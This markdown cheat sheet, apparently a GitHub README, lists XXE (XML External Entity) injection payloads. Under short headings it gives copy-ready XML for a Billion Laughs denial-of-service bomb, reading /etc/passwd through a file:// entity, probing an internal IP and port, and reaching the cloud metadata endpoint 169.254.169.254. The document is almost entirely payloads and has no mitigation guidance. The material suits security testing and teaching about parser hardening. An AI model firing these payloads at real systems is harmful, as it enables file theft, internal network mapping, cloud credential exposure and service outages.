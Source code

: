# XXE(XML External Entity Injection)

## Table of Contents
- [DoS](#DoS)
- [Arbitrary File Read](#Arbitrary-File-Read)
- [Reconnaisance](#Reconnaisance)
- [SSRF](#SSRF)

## DoS

### It can lead to excessive resource usage on the server, causing service interruptions.

- Billion Laughs Attack
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<root>&lol3;</root>
```

## Arbitrary File Read

### It is possible to access the file system and read sensitive information.

- LFI
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

## Reconnaisance

### It can be used for internal network mapping.

- port scanning
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://192.168.0.1:8080"> 
]>
<foo>&xxe;</foo>
```

## SSRF

### It is possible to interact with internal services.

- SSRF
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>
<foo>&xxe;</foo>
```

